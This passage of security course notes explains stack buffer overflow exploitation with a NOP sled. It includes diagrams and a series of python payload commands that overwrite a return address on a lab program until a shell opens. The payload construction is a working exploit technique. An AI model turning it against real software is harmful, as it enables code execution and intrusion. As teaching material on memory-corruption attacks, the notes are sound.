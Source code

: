 Without the gdb code, everything get's shifted up the stack, but the
value we are overwriting the return address to is now point to the same
old place where the shell code *used* to be. It is now somewhere else.

The primary way to correct this is to add nops to shift the stack space
around. A nop (read no-operation) is a special instruction that does
nothing. The byte code for nop is 0x90. With nops Well shift the address
space like so:

``` example

    without nops           with nops         

  .------------.         .------------.
  |            |         |            |
  :            :         :            :

  :            :         :            :
  |            |         |            |
  | shell code |         | shell code |
  | padding    |         | nop        |
  | ret addr   |--.      | nop        |
  :            :  |      | nop        |
                <-'      | nop        |<-.
                         | padding    |  |
                         | ret addr   |--'
```

The sequenences of nops form a "nop sled." If control jumps anywhere
within the nop sled, we'll do a bunch of no operations until we reach
the shell code. Our exploit will look like this:

``` example
                                             .-----------------------.
                                             |                       | 
                                             |                       v
   ./vulnerable 5 <--------padding-----><address-of-nopsled><padding><nop-sled><shell code>
```

How many nop's do we add? It doesn't matter, but we can try and see.

``` example
user@si485H-base:demo$ ./vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4 + '\x90'*0x10 + sh+'\x00'"`
Segmentation fault (core dumped)
user@si485H-base:demo$ ./vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4 + '\x90'*0x20 + sh+'\x00'"`
Illegal instruction (core dumped)
user@si485H-base:demo$ ./vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4 + '\x90'*0x30 + sh+'\x00'"`
Illegal instruction (core dumped)
user@si485H-base:demo$ ./vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4 + '\x90'*0x40 + sh+'\x00'"`
Illegal instruction (core dumped)
user@si485H-base:demo$ ./vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4 + '\x90'*0x50 + sh+'\x00'"`
$ 
```

After 0x50 nop's our return address hits the sled, and BOOM, we got a
shell.

